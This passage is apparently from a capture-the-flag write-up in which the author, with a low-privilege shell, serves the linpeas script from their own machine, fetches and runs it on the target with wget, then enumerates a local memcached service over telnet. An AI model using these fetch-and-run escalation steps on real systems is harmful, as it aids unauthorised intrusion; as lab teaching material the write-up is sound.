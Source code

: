 I tried to locate the user.txt flag but I don’t have the permission to read the user Orka’s files.

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*y_23meVKjck2eqYgGrv-BQ.png)

next step will be upload linpeas to the machine.
first, open python server where the linpeas script is with that command :
```bash
python -m http.server
```

Then, get it on the target machine with:

```bash
wget http://<ip-address>:8000/linpeas.sh
```

give it execute permission and execute it:

```bash
chmod +x linpeas.sh

./linpeas.sh
```

I did not find something special so I checked another port on this machine :

![image](https://miro.medium.com/v2/resize:fit:828/format:webp/1*p7sYi7EyqWYANrMWdxX4Cg.png)

What is that port?
after an explore about it, the service is “memcached” that uses to get data faster from the memory cache.
maybe there is something else but how can I dump data from it?
I find a way to connect it with telnet.

```bash
www-data@osboxes:/$ telnet localhost 11211
telnet localhost 11211
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
version
version
VERSION 1.4.25 Ubuntu
stats 
STAT pid 968
STAT uptime 1412
STAT time 1703165391
STAT version 1.4.25 Ubuntu
STAT libevent 2.0.21-stable
STAT pointer_size 32
STAT rusage_user 0.025273
STAT rusage_system 0.025273
STAT curr_connections 1
STAT total_connections 12
STAT connection_structures 2
STAT reserved_fds 20
STAT cmd_get 0
STAT cmd_set 50
STAT cmd_flush 0
STAT cmd_touch 0
STAT get_hits 0
STAT get_misses 0
STAT delete_misses 0
STAT delete_hits 0
STAT incr_misses 0
STAT incr_hits 0
STAT decr_misses 0
STAT decr_hits 0
```